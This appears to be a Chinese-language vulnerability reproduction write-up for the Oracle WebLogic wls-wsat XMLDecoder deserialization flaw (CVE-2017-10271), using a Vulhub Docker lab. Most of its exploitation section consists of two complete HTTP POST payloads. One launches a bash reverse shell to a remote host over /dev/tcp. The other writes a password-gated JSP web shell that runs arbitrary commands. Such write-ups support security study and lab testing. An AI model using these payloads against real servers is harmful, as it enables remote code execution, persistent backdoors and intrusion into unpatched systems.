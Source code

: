 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021657971.png)

